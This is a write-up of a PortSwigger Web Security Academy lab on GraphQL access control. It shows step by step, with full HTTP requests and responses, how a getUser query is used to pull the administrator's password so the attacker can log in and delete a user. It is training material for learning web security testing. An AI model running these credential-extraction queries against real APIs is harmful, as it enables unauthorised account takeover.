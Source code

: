 # [Accidental exposure of private GraphQL fields](https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure)

```
The user management functions for this lab are powered by a GraphQL endpoint.

The lab contains an access control vulnerability whereby you can induce the API
to reveal user credential fields.

To solve the lab, sign in as the administrator and delete the username carlos


```

- ### There is an access control vulnerability.
- ### Induce the API to reveal user credential fields

<br>

1. Login as peter
2. Send the login Post request to Repeater
`POST /graphql/v1 HTTP/2`

#### The request:
```HTTP
POST /graphql/v1 HTTP/2
Host: 0ad600ae033e31fd80d82b1400e00015.web-security-academy.net
Cookie: session=ZH9c2h82oKmfd0FIs41gc7f1H5Eofiei; session=IBQkjhPYR7JeDQEP7mOneAGXTZ7TICnX
Content-Length: 232
Accept: application/json
Content-Type: application/json
Origin: https://0ad600ae033e31fd80d82b1400e00015.web-security-academy.net
Referer: https://0ad600ae033e31fd80d82b1400e00015.web-security-academy.net/login

{"query":"\n    mutation login($input: LoginInput!) {\n        login(input:
$input) {\n            token\n            success\n        }\n
}","operationName":"login","variables":{"input":{"username":"wiener","password":"peter"}}}
```
<br>

**NEXT**
> Right-click -> extensions -> InQL GraphQL Scanner -> Generate Queries with InQL scanner
> Click on the InQL tab, and open the folder for the scan you just did
> Then select: queries -> getUser.graphql

<br>

#### This reveals in the window on the rignt the query:
```'GraphQL
query {
    getUser(id: Int!) {
        id
        password
        username
    }
}
```
<br>

- **Because the goal is to Induce the API to reveal user credential fields**
- **Then that means that the query above means you gotta substitute the Int! for an actual number**

- But first, right-click on that getUser.graphql query and send to Repeater
- Then, change Int! to 1
- Guessing 1 is the administarator's id number
```'GraphQL
query {
    getUser(id: 1) {
        id
        password
        username
    }
}
```




#### Send the request:
```HTTP
POST /graphql/v1 HTTP/2
Host: 0ad600ae033e31fd80d82b1400e00015.web-security-academy.net
Content-Type: application/json
Content-Length: 106

{"query": "query {\n    getUser(id: 1) {\n        id\n        password\n
username\n    }\n}"}
```

#### Response:
```HTTP
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=e9a9R3myvBcVw0i3kedeyUfpuxFYugB4; Secure; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 133

{
  "data": {
    "getUser": {
      "id": 1,
      "password": "avl5ht2slic29khwbtkz",
      "username": "administrator"
    }
  }
}
```

### Now log in as the administrator, go to admin panel and delete carlos


